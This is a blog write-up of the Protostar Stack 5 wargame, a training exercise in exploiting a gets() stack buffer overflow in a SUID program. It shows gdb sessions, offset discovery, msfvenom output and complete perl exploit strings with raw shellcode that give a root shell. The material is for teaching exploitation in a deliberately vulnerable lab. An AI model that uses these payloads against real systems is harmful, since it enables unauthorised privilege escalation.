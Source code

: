 ```yaml
---
layout: post
title: "Exploit Exercises - Protostar Stack 5"
date: "2011-12-17T12:23:00-05:00"
comments: true
categories:
 - wargames
 - Protostar
 - linux
 - exploit-exercises
 - suid
 - hacking
---
```


Wow, this challenge was a tough one for me.  I ran into some huge problems that I had to work out.  Considering this is a "standard buffer overflow", I figured it'd be as easy as some of the others I've done in the past.  I'll explain my frustrations inline. 

<!-- more -->

First, we're given the following vulnerable program.

```
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

int main(int argc, char **argv)
{
 char buffer[64];

 gets(buffer);
}
```

The first task with this challenge was to find the offset of the EIP.  Like previous challenges, I used [Metasploit's](http://www.metasploit.com) pattern_create.rb and pattern_offset scripts on another machine.

```
mandreko@li225-134:/opt/framework-4.0.0/msf3/tools$ ./pattern_create.rb 128
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae

user@protostar:/opt/protostar/bin$ gdb --quiet ./stack5
Reading symbols from /opt/protostar/bin/stack5...done.
(gdb) run
Starting program: /opt/protostar/bin/stack5
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae

Program received signal SIGSEGV, Segmentation fault.
0x63413563 in ?? ()

mandreko@li225-134:/opt/framework-4.0.0/msf3/tools$ ./pattern_offset.rb 0x63413563
76
```

 Now we know that we have 76 characters we could put our shellcode in before the EIP.  I was curious to see if we would have any after as well.  I wanted to explore a little, so I ran this.

```
user@protostar:~$ perl -e 'print "A"x76 . "\xEF\xBE\xAD\xDE" . "C"x100' | ./stack5
Segmentation fault (core dumped)

user@protostar:~$ gdb --core=/tmp/core.11.stack5.4174 --quiet
Core was generated by `./stack5'.
Program terminated with signal 11, Segmentation fault.
#0  0xdeadbeef in ?? ()
(gdb) x/10s $esp
0xbffff7e0:      'C' <repeats 100 times>
0xbffff845:      "b\377\267\233\333\352\267\364\357\377\267\001"
0xbffff852:      ""
0xbffff853:      ""
0xbffff854:      "\020\203\004\b"
0xbffff859:      ""
0xbffff85a:      ""
0xbffff85b:      ""
0xbffff85c:      "1\203\004\ba\004\b\001"
0xbffff866:      ""
```

Interestingly enough, it looks like we at least have 100 characters after our return address that we could use to store longer shellcodes.  This could come in handy if using shellcodes generated from msfpayload. 

So now we know that we can jump to 0xbffff7e0 to get into our C area.  Let's pad it with a couple NOPs just in case, and jump to 0xbffff7d6 instead. 

Up until now, this was a simple buffer overflow problem.  One may even call it a textbook problem.  Now here's the part that had me frustrated. 

I decided I would try using msfpayload to generate some shellcode like I've done many times in the past.  Since I just want to run /bin/sh, I figured it'd be an easy way.  I also went through the exercise of finding all the badchars (I'll cover this later, since it doesn't matter here).

```
msfvenom -p linux/x86/exec -f pl -b '\x0d\x0a\x00\xff' CMD=/bin/sh PrependSetresuid=true
[*] x86/shikata_ga_nai succeeded with size 80 (iteration=1)
my $buf =
"\xdb\xc8\xd9\x74\x24\xf4\xba\x2a\xa1\xa4\x48\x5d\x29\xc9" .
"\xb1\x10\x31\x55\x17\x83\xed\xfc\x03\x7f\xb2\x46\xbd\x4e" .
"\x7d\xb7\xe5\x47\x9e\x08\xbd\x6a\xe1\x03\xb5\x2c\x7b\x81" .
"\xaf\xa4\x56\x45\xb9\xd3\xc1\xa6\xca\x73\x12\xd1\x03\xe1" .
"\x7b\x4f\xd5\x06\x29\x67\xed\xc8\xce\x77\xc1\xaa\xa7\x19" .
"\x32\x59\x50\xe6\x1b\xce\x29\x07\x6e\x70\x18\x13\x1b\x71" .
"\x03\x6e\x5c";
```

This generated shellcode looked awesome.  I configured it to not have any of my badchars, to run "/bin/sh", and to prepend that execution with a setresuid() so that the SUID bit would affect my result, giving me a root shell, instead of just a shell I already had.  So I set it all up:

```
user@protostar:~$ perl -e 'print "A"x76 . "\xd6\xf7\xff\xbf" . "\x90"x16 . "\xdb\xc8\xd9\x74\x24\xf4\xba\x2a\xa1\xa4\x48\x5d\x29\xc9\xb1\x10\x31\x55\x17\x83\xed\xfc\x03\x7f\xb2\x46\xbd\x4e\x7d\xb7\xe5\x47\x9e\x08\xbd\x6a\xe1\x03\xb5\x2c\x7b\x81\xaf\xa4\x56\x45\xb9\xd3\xc1\xa6\xca\x73\x12\xd1\x03\xe1\x7b\x4f\xd5\x06\x29\x67\xed\xc8\xce\x77\xc1\xaa\xa7\x19\x32\x59\x50\xe6\x1b\xce\x29\x07\x6e\x70\x18\x13\x1b\x71\x03\x6e\x5c"' > /home/user/file
user@protostar:~$ /opt/protostar/bin/stack5 < /home/user/file                  
user@protostar:~$
```

So um, I should have got a shell there right?  There was no segmentation fault, it ran cleanly.  I tinkered by putting "\xcc" before the shellcode, and it would give me a message letting me know that it hit it.  I knew for sure my shellcode was being executed, but no results.  To verify, I used gdb:

``` 
user@protostar:~$ sudo gdb --quiet /opt/protostar/bin/stack5
Reading symbols from /opt/protostar/bin/stack5...done.
(gdb) run < /home/user/file
Starting program: /opt/protostar/bin/stack5 < /home/user/file
Executing new program: /bin/dash

Program exited normally.
```

What this showed me was 2 interesting things.  Firstly, I was not aware that many distributions now map /bin/sh to /bin/dash (more info [here](https://wiki.ubuntu.com/DashAsBinSh)).  Secondly, and more importantly, I knew for sure that my shellcode was executing, and creating the process.  I just didn't know why it exited after. 

So this is the point that I spent 5 days on and off messing with.  I found if I changed the msfvenom command from CMD="/bin/sh" to CMD="touch /tmp/iamawesome", the file would be created with root permissions.  Any command that didn't need to return to me for interactive control worked fine.  I tried a myriad of other shellcodes, and nothing just gave me a simple shell.  I could bind a shell to a TCP port, or run a meterpreter with no problem, but for this challenge, I just wanted a simple rootshell from "execve()". 

So one night, I was reading on this, and just happened to get my search query perfect, because I stumbled upon an interesting stackoverflow page, [here](http://stackoverflow.com/questions/2859127/shellcode-for-a-simple-stack-overflow-exploited-program-with-shell-terminates-d).  This guy was having the same problem as me!  And interestingly enough, he mentions problems with programs that use the "gets()" function.  This makes sense, as your standard input/output could be configured in a mode just for the function call.  Unfortunately, the shellcode that was mentioned was hosted at milw0rm, which has been down for a good long time.  Many sites, such as [Exploit-Db](http://www.exploit-db.com) have popped up to fill the void that milw0rm left.  However, they use a completely different url structure, so I had no idea what the shellcode was.  Well, I used the [Internet Way-Back Machine](http://www.archive.org), and found an old cache of milw0rm.  From there, I found the shellcode.  I also found that Exploit-Db has it [here](http://www.exploit-db.com/exploits/13357) as well.  I read through the description of the shellcode, and it makes tons of sense.  So I wire it up to try again, this time with the new shellcode.

```
user@protostar:~$ perl -e 'print "A"x76 . "\xd6\xf7\xff\xbf" . "\x90"x16 . "\x31\xc0\x31\xdb\xb0\x06\xcd\x80\x53\x68/tty\x68/dev\x89\xe3\x31\xc9\x66\xb9\x12\x27\xb0\x05\xcd\x80\x31\xc0\x50\x68//sh\x68/bin\x89\xe3\x50\x53\x89\xe1\x99\xb0\x0b\xcd\x80"' > /home/user/file
user@protostar:~$ /opt/protostar/bin/stack5 < /home/user/file                   
# whoami
root
# id
uid=1001(user) gid=1001(user) euid=0(root) groups=0(root),1001(user)
```

Awesome.  I have a root shell.  I guess it's also worth pointing out that since we are specifically jumping to a memory address in our exploit, that memory addresses can change based on how you call it.  The address will be different if I call ./stack5 from inside the /opt/protostar/bin folder, than if I use the full path.  Since I was using gdb, and it calls files using the full path, I did it as well for the exploit.  For now, we have not yet covered how to dynamically get that value.  That will be for a later post.
